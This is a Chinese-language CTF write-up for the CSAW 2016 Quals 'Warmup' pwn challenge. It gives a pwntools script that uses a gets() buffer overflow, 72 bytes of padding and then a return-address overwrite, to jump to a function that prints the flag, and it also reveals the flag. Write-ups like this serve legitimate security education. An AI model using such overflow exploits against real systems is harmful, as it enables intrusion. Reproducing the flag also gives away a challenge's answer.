 # CSAW CTF 2016 Quals: Warmup (Pwn, 50)

說明：
> So you want to be a pwn-er huh? Well let's throw you an easy one ;)
>
> [warmup](https://github.com/ctfs/write-ups-2016/raw/master/csaw-ctf-2016-quals/Pwn/WarmUp-50/warmup)

## 解題

執行binary得到以下output：

```
-Warm Up-
WOW:0x40060d
>
```

`WOW` 後面跟著的記憶位址，用Hopper Disassembler找到是個叫`easy`的function。這個function會執行`system("cat flag.txt")`，所以只要buffer overflow覆寫return address到這個位址就可以得到flag。

![easy](easy.png)

這是題50分的熱身題，所以在`main`就能找到個簡單的`gets()`buffer overflow bug。

![main](main.png)

64 bytes buffer，加上stack上的8 bytes`$rbp`，總共要72 bytes去overflow return address：

```python
from pwn import *

r = remote('pwn.chal.csaw.io', 8000)
r.recv()
r.sendline("A"*72 + p64(0x40060d))
print r.recvline()
```

完整解答：[warmup.py](warmup.py)

## Flag

```
FLAG{LET_US_BEGIN_CSAW_2016}
```

## 其他解答

- https://github.com/ctfs/write-ups-2016/blob/master/csaw-ctf-2016-quals/Pwn/WarmUp-50/README.md